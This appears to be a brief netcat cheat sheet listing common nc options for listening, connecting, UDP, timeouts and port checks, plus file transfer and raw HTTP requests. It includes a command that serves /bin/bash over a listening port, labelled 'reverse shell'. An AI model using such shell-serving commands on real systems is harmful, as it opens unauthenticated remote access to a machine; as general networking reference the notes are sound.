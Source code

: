 * `nc -l port` listen for inbound connection on a port
* `nc 10.0.2.10 port` connect to remote host and port
* `nc -u ...` on UDP rather than TCP (which is default)
* `nc -w 10` terminate connection after 10 seconds
* `nc -z` report connection status only (can be used to test port open)
  * commonly used together with `-v`
  * e.g `nc -vz 10.0.2.10 8080`
* `nc -c command`
* `nc -e command`
* reverse shell
  * on host1: `nc -n -v -l -p 5555 -e /bin/bash`
  * on host2: `nc -nv host1 5555`
* transfer a file
  * on host1: `nc -l -p 8080 > out.file`
  * on host2: `nc host1 8080 < in.file`
* curl
  * `printf "GET / HTTP/1.0\r\n\r\n" | nc site-hostname 80`
